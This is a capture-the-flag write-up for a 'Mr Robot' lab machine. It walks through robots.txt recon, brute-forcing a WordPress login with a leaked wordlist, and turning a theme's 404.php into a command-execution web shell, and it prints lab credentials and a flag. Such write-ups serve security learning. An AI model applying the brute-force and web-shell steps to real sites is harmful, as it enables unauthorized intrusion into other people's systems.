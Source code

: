 ## start with mr robot cool theme 
![Screenshot 2023-08-02 at 11-38-26 Screenshot](https://github.com/kiro6/writeups-ctfs/assets/57776872/0bedb10c-91ac-4554-8a0c-35835f328c0c)

## request robots.txt , and i found path for key 1 
```
$ curl "http://10.10.213.185/robots.txt"
User-agent: *
fsocity.dic
key-1-of-3.txt

$ curl "http://10.10.213.185/key-1-of-3.txt"
073403c8a58a1f80d943455fb30724b9

```

## lets check fsocity.dic , it is a downloadable file contating some words  
```
$ head fsocity.dic 
true
false
wikia
from
the
now
Wikia
extensions
scss
window
```

## after browsing fscoscity website i found nothing , using wapplayzer it is using wordpress , i tried to reuqest wp-login.php and we have access to it

## there is a login page i tried to login using random username and password and it gave me this error `ERROR: Invalid username. Lost your password?` we can try bruteforce using `fsocity.dic ` to find the username 

## using burp intruder,FFUF or hydra in my case i used burp intruder and found the username `Elliot` which gave me this error `ERROR: The password you entered for the username Elliot is incorrect` , lets bruteforce the password too , the password is `ER28-0652`

## and we have access to wordpress admin panel , lets get rce via theme editor  
![Screenshot 2023-08-02 at 12-05-29 Edit Themes ‹ user's Blog! — WordPress](https://github.com/kiro6/writeups-ctfs/assets/57776872/2f49b47c-a720-4fc1-80b9-1b24d8fd05c6)


```bash
url "http://10.10.213.185/wp-admin/wp-content/themes/twentyfifteen/404.php?cmd=ls"  
admin
audio
blog
css
fsocity.dic
images
index.html
index.php
intro.webm
js
key-1-of-3.txt
license.bk
license.txt
readme.html
robots.txt
sitemap.xml
sitemap.xml.gz
video
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
you-will-never-guess-this-file-name.txt
<!DOCTYPE html>
<html lang="en-US" class="no-js">
<head>
```
